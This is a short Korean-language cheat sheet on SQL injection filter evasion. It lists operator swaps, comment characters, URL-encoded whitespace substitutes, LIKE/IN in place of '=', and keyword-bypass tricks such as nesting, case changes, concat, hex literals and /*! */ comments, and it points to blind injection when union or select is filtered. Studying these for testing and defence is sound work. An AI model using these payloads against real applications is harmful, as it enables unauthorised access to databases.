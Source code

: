 # SQL injection

### 필터링 우회

OR/AND     
->  ||/&&   
ex) select * from table where id='admin' or 1=1   
->  select * from table where id='admin' || 1=1   
ex) select * from table where id='admin' and pw='password'   
->  select * from table where id='admin' && pw='password'   

주석   
->  -- # ;%00 -- - %23 /**/   
-- 주석 뒤에 공백문자가 있어야 된다.  
-- - 주석   
%23는 #을 의미한다.  
/*  주석할 내용  */   

=   
->  like in   
ex) select * from table where id='admin'  
->  select * from table where id like 'admin'   
->  select * from table where id in('admin')   

공백문자   
* tab : %09
* line feed(\n) : %0a
* carrage return(\r) : %0d
* 주석 : /**/
* 괄호 : ()
* 더하기 : +  
* back quote : \`   
ex) id='admin' or 1=1   
->  id='admin'%09or%091=1   
->  id='admin'%0aor%0a1=1   
->  id='admin'%0dor%0d1=1   
->  id='admin'/\*\*/or/\*\*/1=1   
->  id=(admin)or(1=1)   
->  id="admin"+or+1=1   

특정 문자열    
replace   
replace("admin","",$in) 일 때   
adadminmin으로 우회 가능   
+을 사용해서 우회   
ad+min우회   
대소문자를 이용하여 우회   
aDmIn으로 우회   
reverse   
id=reverse('nimda')   
concat   
id=concat('adm','in')   
16진수   
id=x'61646d696e'   
id=0x61646d696e   
/\*! \*/   
/\*!union\*/   
union,select 등이 필터링 되었을 땐 blind sql로 넘어간다.   
